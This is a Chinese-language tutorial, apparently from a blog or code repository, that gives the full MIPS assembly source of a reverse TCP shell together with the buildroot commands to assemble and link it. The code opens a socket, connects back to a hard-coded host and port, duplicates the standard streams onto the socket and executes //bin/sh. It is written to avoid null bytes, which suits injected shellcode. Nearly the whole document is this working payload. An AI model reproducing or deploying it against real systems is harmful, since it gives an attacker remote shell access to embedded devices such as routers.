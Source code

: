 
## 一：Reverse_Tcp汇编源码
### 1.1 源码
~~~
.section .text
.global __start
.set noreorder
__start:

#sys_socket
#ao = admin
#a1 = type
#a2 = protocol
li $t7,-6			
nor $t7,$t7,$zero  	 //$t7 = not($t7 or $zero) = 5
addi $a0,$t7,-3		 //$a0 = 2		
addi $a1,$t7,-3		 //$a1 = 2
slti $a2,$zero,-1	 //$a2 = 0
li   $v0, 0x1057	 //sys_socket系统调用号，通过动态调试C语言版本的代码获得
syscall        

#connect
#a0 = socket
#a1 = ser_addr(family(word),port(word),ip(dword),0(qword))
#a2 = len
sw $v0,-1($sp)	 	//$v0 = sys_socket返回值
lw $a0,-1($sp)		//$a0 = $v0
li $t7,0xfffd		------------------------------
nor $t7,$t7,$zero
sw $t7,-32($sp)		//$t7 = 0000 0002(family)
lui $t6,0x7777
ori $t6,$t6,0x7777
sw $t6,-28($sp)		//$t6 = 7777 7777(port)
lui $t6,0xc0a8
ori $t6,$t6,0x1f69	//$t6 = c0a8 1f69(ip address)
sw $t6,-26($sp)		
addiu $a1,$sp,-30   //$a1 = ser_addr
li $t4,-17		   ------------------------------
nor $a2,$t4,$zero	//$a2 = ser_addr len
li  $v0, 0x104A	   ------------------------------
syscall

#dup2
#a0 = oldfd
#a1 = newfd(0,1,2)
li $s1,-3
nor $s1,$s1,$zero 			//$s1 = 2(0：标准输入 1：标准输出 2：标准错误)
lw $a0,-1($sp)				//$a0 = sys_socket返回值		
dup2_loop:move $a1,$s1		//$a1 = $s1
li $v0, 0xFDF
syscall
li $s0,-1					//$s0 = -1
addi $s1,$s1,-1				//$s1-=$s1
bne $s1,$s0,dup2_loop		//$s1!=$s0 进行循环

#execve
#a0 = filename
#a1 = argv
#a2 = envp
slti $a2,$zero,-1			//$a2 = 0			
lui $t7,0x2f2f
ori $t7,$t7,0x6269
sw $t7,-20($sp)     	    //$t7 = -20($sp) = 2f2f 6269 (//bi)
lui $t6,0x6e2f
ori $t6,$t6,0x7368			//$t6 = 6e2f 7368(n/sh)
sw $t6,-16($sp)
sw $zero,-12($sp)			
addiu $a0,$sp,-20			//$a0 = //bin/sh
sw $a0,-8($sp)
sw $zero,-4($sp)
addiu $a1,$sp,-8			//$a1 = &(//bin/sh)
li $v0, 0xFAB
syscall
~~~

### 1.2execve函数定义
1、execve的定义形式：int execve(const char *filename, char *const argv[], char *const envp[]);

2、参数说明：

const char *filename：执行文件的完整路径。

char *const argv[]：传递给程序的完整参数列表，包括argv[0]，它一般是程序的名。

char *const envp[]：一般传递NULL，表示可变参数的结尾。

## 二：如何编译此段汇编代码
### mips-linux-as
位于跨平台编译工具buildroot中用来编译汇编源码，-o参数将指定文件编译为中间文件
例如本例中：
~~~
mips-linux-as -o s.o ./reverse_tcp_asm.S
~~~
### mips-linux-ld
位于跨平台编译工具buildroot中用来链接中间文件，-o参数将指定文件链接为可执行文件
例如本例中：
~~~
mips-linux_ld s.o -o ./reverse_tcp_asm
~~~



